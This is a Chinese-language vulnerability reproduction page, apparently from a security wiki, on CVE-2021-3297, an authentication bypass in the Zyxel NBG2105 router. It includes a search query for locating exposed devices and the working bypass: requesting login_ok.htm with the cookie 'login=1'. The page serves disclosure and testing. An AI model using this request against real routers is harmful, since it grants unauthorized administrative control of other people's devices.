


# Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

<a-checkbox checked>Zyxel NBG2105</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ZyXEL-NBG2105"</a-checkbox></br>

## 漏洞复现

登录页面如下


其中前端文件 `/js/util_gw.js` 存在前端对 Cookie login参数的校验





可以看到检测到 Cookie中的 `login=1` 则跳转 home.html


```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```


请求如下则会以管理员身份跳转到 `home.htm页面`


```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```





## 